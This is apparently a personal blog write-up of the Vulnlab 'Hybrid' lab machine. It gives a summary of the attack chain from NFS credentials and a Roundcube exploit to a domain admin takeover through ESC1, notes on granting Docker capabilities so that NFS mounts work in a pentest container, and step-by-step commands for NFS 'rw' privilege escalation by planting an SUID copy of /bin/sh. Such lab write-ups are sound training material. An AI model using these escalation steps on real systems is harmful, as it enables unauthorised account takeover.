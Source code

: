 +++
title = '[Vulnlab] Hybrid - Mounting an nfs share inside Docker and other Adventures'
date = 2024-10-12T00:43:42+02:00
draft = false
tags = ['pentesting']
+++

[![Proof](/images/vulnalb_hybrid/banner.png)](https://api.vulnlab.com/api/v1/share?id=74caee57-0676-4d10-bfcc-9010a57dd7ac)


# Summary
If you came for a write-up for this challenge. Sorry, here is just a summary,
since I'm lazy.
However, I can offer a short fun story on how to mount an NFS Share inside docker.

The challenge consists of two hosts:
* `MAIL01` - Linux host with Webmail
* `DC01` - Windows Domain Controller
## Mail01
1. Mount an NFS Share for credentials
2. Use credentials to log in to Roundcube webmail
3. Public Exploit leads to reverse shell
4. Exploit NFS `rw` privilege to take over User → user.txt
5. Find Keytab file that contains NTLM-Hash of `MAIL01`
## DC01
1. Abuse ESC1 for Domain Admin


# 1. A tale of mounting NFS in Docker
So I was trying to solve the challenge, and suddenly I found an NFS share
that allowed anyone (including evil hackers like me) to mount it.

```bash
showmount -e $IP
Export list for 10.10.255.86:
/opt/share *
```
The problem? I'm using [Exegol](https://exegol.readthedocs.io) which is a docker container for pentesting.
And well, when you try to mount a share you get this:
```bash
mkdir share
mount -t nfs $IP:/opt/share share -o nolock 
```

![Mount problems](/images/vulnlab_hybrid/problem.png)

> mount.nfs: Operation not permitted

Turns out that mounting requires some capabilities that a normal docker container doesn't have for security purposes.

## YOLO approach `--privileged` 
The easiest approach would be just to use the `--privileged` flag and not think about it.

Yes, that works... and is an awful idea. Any malicious script that we use
during the engagement has can just take over the host system.
[Hacktricks link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-privileged)

AFAIK this is the only way to make mounting possible in Exegol.

## More nuanced approach with Capabilities and apparmor

We need two things to be able to mount:
* `SYS_ADMIN`
* `apparmor:unconfirmed`

Apparmor protects against malicious system calls, such as mount, so
we need to be able to handle that.

Example with Ubuntu:
```bash
docker run --rm --cap-add SYS_ADMIN \
--security-opt apparmor:unconfined \
 -it ubuntu /bin/bash
```


## Bonus
In case we want to create a pentesting docker with a VPN tunnel we need the following flags to do it:

* Capacity `NET_ADMIN`
* Device `/dev/net/tun`

Example with Ubuntu:
```bash
docker run --rm --cap-add NET_ADMIN \
--device /dev/net/tun \
-it ubuntu /bin/bash
```

# 4. NFS Privilege escalation
This was part of the challenge and it involved so many steps that I need to write it down.

Basically if you have code execution on the remote machine you can do the following.

1. Check the configuration in `/etc/exports`
**Vulnerable configurations**
* `no_root_squash`
* `rw`

## Case 1 - no_root_squash
Just copy SUID binary

## Case 2 - just rw - take over non-root user
> Create SUID binary of specific user (root not possible)

1. Recreate user locally
```bash
sudo useradd [name] -u [uid of target] -g sudo
sudo passwd [name]
```
2. Mount share again
```bash
sudo mount -t nfs $(<DOMAIN):[target] share -o nolock
```
3. Set SUID of bin/sh
On victim
```bash
cp /bin/sh .
```
On Host
```bash
cp share/sh .
```
On victim
```bash
rm sh
```
On Host
```bash
cp sh share
chmod 4755 share/sh
```

Win on victim
```bash
./sh -p
```